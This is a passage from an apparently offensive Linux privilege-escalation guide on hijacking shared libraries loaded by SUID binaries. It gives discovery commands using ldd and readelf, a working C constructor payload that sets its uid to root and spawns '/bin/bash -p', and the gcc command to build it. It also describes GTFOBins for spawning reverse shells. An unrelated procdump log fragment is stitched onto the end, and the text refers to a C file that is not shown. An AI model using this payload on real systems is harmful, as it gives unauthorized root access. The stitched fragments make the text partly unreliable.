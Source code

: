 This code, once compiled and executed, aims to elevate privileges by manipulating file permissions and executing a shell with elevated privileges.

Compile the above C file into a shared object (.so) file with:

```
gcc -shared -o /path/to/.config/libcalc.so -fPIC /path/to/.config/libcalc.c
```

Finally, running the affected SUID binary should trigger the exploit, allowing for potential system compromise.

## Shared Object Hijacking

```
# Lets find a SUID using a non-standard library
ldd some_suid
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d payroll  | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Now that we have found a SUID binary loading a library from a folder where we can write, lets create the library in that folder with the necessary name:

```
//gcc src.c -fPIC -shared -o /development/libshared.so
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

If you get an error such as

```
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.

### GTFOBins

 is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.  is the same but for cases where you can only inject arguments in a command.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714